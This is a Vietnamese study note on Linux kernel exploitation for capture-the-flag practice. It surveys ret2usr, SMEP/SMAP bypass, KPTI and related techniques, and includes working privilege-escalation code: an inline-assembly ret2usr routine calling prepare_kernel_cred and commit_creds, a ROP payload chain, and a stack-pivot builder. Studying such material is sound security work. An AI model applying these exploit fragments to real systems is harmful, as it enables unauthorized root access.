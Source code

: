 # Tìm hiểu về kernel

## Nguồn tham khảo

https://hackmd.io/@ChinoKafuu/kernel

## Một số thông tin

- Thông thường khi tôi chơi ctf, quá trình debug tôi thấy rằng vùng địa chỉ từ 0x5.. đến 0x7fff mà tựa hỏi sau 0x7fff... là gì? Tại sao không đến 0xffff. Thì trong quá trình tìm hiểu kernel, tôi nhận thấy rằng, máy tính chia thành 2 phần là `user-land` và `kernel-land`. Dưới đây là vùng nhớ của 32/64 bit
  ![Alt text](bin/image.png)
- Khi chúng ta exploit các file bin, các tiến trình đang hoạt động ở user-land. Khi exploit kernel, ta có thể can thiệp cả user-land và kernel-land.
- Các thiết bị như bàn phím, chuột thường được xử lý ở user-land. Để tương tác với kernel-land, các process sẽ yêu cầu sự giúp đỡ từ kernel-land bằng `syscall`
- Có một số lớp bảo vệ nhưng chúng ta sẽ tìm hiểu sau.

### cách định nghĩa 1 fops

- Việc exploit sẽ là tương tác với 1 module kernel (file .ko - là một phần mở rộng của kernel, để có thể thêm chức năng mà không phải build lại kernel). Và như ở thông tin trên, ta chỉ có thể tương tác với kernel thông qua syscall, vậy làm sao để khi ta gọi 1 syscall read thì nó sẽ thực thi read trong kernel hay read trong module? Sau một hồi hỏi cung chatGPT thì tôi có 1 số thông tin như sau. Đầu tiên để tương tác với 1 module, ta cần mở file(hàm open(<tên file>, ...)). Thứ 2, trong module cần có một cấu trúc `file_operations` (fops) chứa các con trỏ trỏ đến các hàm xử lý trong module. Ví dụ

```
static struct file_operations fops = {
    .open = my_module_open,
    .read = my_module_read,
    .write = my_module_write,
    .release = my_module_release,
    // ...
};
```

```c
g_fd = open("/dev/hackme", O_RDWR);
read(g_fd, buf, sizeof(buf))
// thực thi hàm read trong module hackme
```

# setup debug

https://github.com/ysf/gef-bata

# Một số kĩ thuật khai thác kernel

- ret2user
  - status switch
- modify cr4 register
  - bypass smep
  - bypass smap
- kpti
  - fix cr3 register
  - swapgs_restore_regs_and_return_to_usermode()
- kernel information leak
  - useful kernel structure for UAF
- modprobe_path
- userfaultfd
  - race condition
- setxattr
  - setxattr + userfaultfd
- msg_msg
- signal handler

## ret2usr

```c
void save_state()
{
    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax;");
    puts("[*] Saved state");
}

void escalate_privs(void)
{
    __asm__(
        ".intel_syntax noprefix;"
        "movabs rax, 0xffffffff814c67f0;" // prepare_kernel_cred
        "xor rdi, rdi;"
        "call rax; mov rdi, rax;"
        "movabs rax, 0xffffffff814c6410;" // commit_creds
        "call rax;"
        "swapgs;"
        "mov r15, user_ss;"
        "push r15;"
        "mov r15, user_sp;"
        "push r15;"
        "mov r15, user_rflags;"
        "push r15;"
        "mov r15, user_cs;"
        "push r15;"
        "mov r15, user_rip;"
        "push r15;"
        "iretq;"
        ".att_syntax;");
}

```

## modify cr4 register

- Reference: @ChinoKafuu, https://ctf-wiki.mahaloz.re/pwn/linux/kernel/bypass_smep/, https://lkmidas.github.io/posts/20210128-linux-kernel-pwn-part-2/

### smep và smap

- `smep` ngăn chặn việc thực thi mã trong user mode từ kernel mode
- nó được bật bằng cách set bit thứ 20 của thanh ghi CR4.
- Enable thêm +smep vào ở -cpu và disable thêm nosmap vào -append
- `smap` ngăn chặn việc truy cập dữ liệu trong kernel mode từ user mode
- nó được bật bằng cách set bit thứ 21 của thanh ghi CR4.
  ![Alt text](bin/image-1.png)

### bypass

#### overwrite CR4

- Ta sẽ cố gắng set thanh ghi `rc4 = 0x6f0` bằng native_write_cr4(value)
- Đối với các kernel cũ thì ta chỉ cần `pop rdi`. Tuy nhiên các phiên bản kernel mới đã có chức năng `pin` các bit của `rc4` khiến chúng không thể bị overwrite

```c
void native_write_cr4(unsigned long val)
{
	unsigned long bits_changed = 0;

set_register:
	asm volatile("mov %0,%%cr4": "+r" (val) : : "memory");

	if (static_branch_likely(&cr_pinning)) {
		if (unlikely((val & cr4_pinned_mask) != cr4_pinned_bits)) { // check
			bits_changed = (val & cr4_pinned_mask) ^ cr4_pinned_bits;
			val = (val & ~cr4_pinned_mask) | cr4_pinned_bits;
			goto set_register;
		}
		/* Warn after we've corrected the changed bits. */
		WARN_ONCE(bits_changed, "pinned CR4 bits changed: 0x%lx!?\n",
			  bits_changed);
	}
}
```

#### ROP chain

- Cách thứ 2, ta có thể sử dụng các gadget

```
ROP into prepare_kernel_cred(0).
ROP into commit_creds(), with the return value from step 1 as parameter.
ROP into swapgs ; ret.
ROP into iretq with the stack setup as RIP|CS|RFLAGS|SP|SS.
```

- Điều kiện tốt nhất nếu ta có gadget `mov rdi, rax; ret` tuy nhiên nếu không gadget tốt nhất, ta sẽ phải set up tuỳ theo các gadget mà ta có:

```c
    payload[off++] = pop_rdi_ret;         // return address
    payload[off++] = 0x0;                 // rdi <- 0
    payload[off++] = prepare_kernel_cred; // prepare_kernel_cred(0)
    payload[off++] = pop_rdx_ret;
    payload[off++] = 0x8;                      // rdx <- 8
    payload[off++] = cmp_rdx_jne_pop2_ret;     // cmp rdx, 8 ; jne 0xffffffff81964cbb ; pop rbx ; pop rbp ; ret
    payload[off++] = 0x0;                      // dummy rbx
    payload[off++] = 0x0;                      // dummy rbp
    payload[off++] = mov_rdi_rax_jne_pop2_ret; // mov rdi, rax ; jne 0xffffffff8166fe7a ; pop rbx ; pop rbp ; ret
    payload[off++] = 0x0;                      // dummy rbx
    payload[off++] = 0x0;                      // dummy rbp
    payload[off++] = commit_creds;             // commit_creds(prepare_kernel_cred(0))
```

#### stack pivot

- Trường hợp smap tắt
- Một ví dụ khi ta muốn stack pivot thành 0x5b000000

```c
void build_fake_stack(void){
    fake_stack = mmap((void *)0x5b000000 - 0x1000, 0x2000, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_ANONYMOUS|MAP_PRIVATE|MAP_FIXED, -1, 0);
    unsigned off = 0x1000 / 8;
    fake_stack[0] = 0xdead; // put something in the first page to prevent fault
    fake_stack[off++] = 0x0; // dummy r12
    fake_stack[off++] = 0x0; // dummy rbp
    fake_stack[off++] = pop_rdi_ret;
    ... // the rest of the chain is the same as the last payload
}
```

